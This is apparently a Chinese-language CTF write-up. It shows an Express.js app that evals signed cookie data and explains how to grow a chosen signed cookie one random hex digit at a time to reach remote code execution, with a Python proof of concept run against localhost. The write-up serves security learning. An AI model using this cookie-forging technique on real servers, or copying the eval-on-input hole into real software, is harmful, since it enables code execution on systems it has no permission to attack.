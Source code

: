 ```javascript=
});

app.get('/random', function (req, res) {
    console.log(req.cookies.code);
    console.log(req.signedCookies.code);
    console.log(req.secret);
    console.log(secret);
    let result = null;
    if (req.signedCookies.code.length >= 40) {
        const code = Buffer.from(req.signedCookies.code, 'hex').toString();
        try {
            result = eval(code);
        } catch {
            result = '(execution error)';
        }
        res.cookie('code', '', { signed: true })
            .send({ progress: req.signedCookies.code.length, result: `Executing '${code}', result = ${result}` });
    } else {
        res.cookie('code', req.signedCookies.code + randomHex(), { signed: true })
            .send({ progress: req.signedCookies.code.length, result });
    }
});

app.listen(5000);
```
:::

在 app.js 中有一個明顯的 eval 函式，可以幫我們執行 js code，也就可以進行 RCE

不過，如果要使用到 eval，會需要一個長達 20 byte (40 個 hex) 簽章過的 cookie，而簽章的 secret 未知，而會進行簽章的地方基本上也只有 /random endpoint 中 else 區塊的 `req.signedCookies.code + randomHex()`

而由於檢查過相關版本函式庫接是最新，應該是沒有 vulnerability，且 HMAC 相關演算法也沒有聽過甚麼神奇的繞過方法

在一陣推敲後，靈光乍現想到我們可以控制是否要送 cookie 資料，因此 randomHex 新增加的 hex 就是我們可以控制的了 (就某種意義上來說，lnfinite monkey theorem 這個提示真的確實有點用，總之就是讓他一直生 byte 出來)

因此，我們也就可以使用到 eval，雖然說控制長度只有 20 byte

:::spoiler POC
```python=
import requests

payload_demand = b"1+1//"
payload_demand += bytes([0 for _ in range(20 - len(payload_demand))])
payload_demand = payload_demand.hex()

url = "http://localhost:5000"
res1 = requests.get(url)
cookie = res1.cookies["code"]

i = 0
while(i < len(payload_demand)):
    res = requests.get(f"{url}/random", cookies={"code":cookie})
    temp_cookie = res.cookies["code"]
    ck = temp_cookie[4:].split('.')[0]
    if(ck[-1] == payload_demand[i]):
        print(temp_cookie, payload_demand)
        cookie = temp_cookie
        i += 1

res = requests.get(f"{url}/random", cookies={"code":cookie})
print(res.text)
```
:::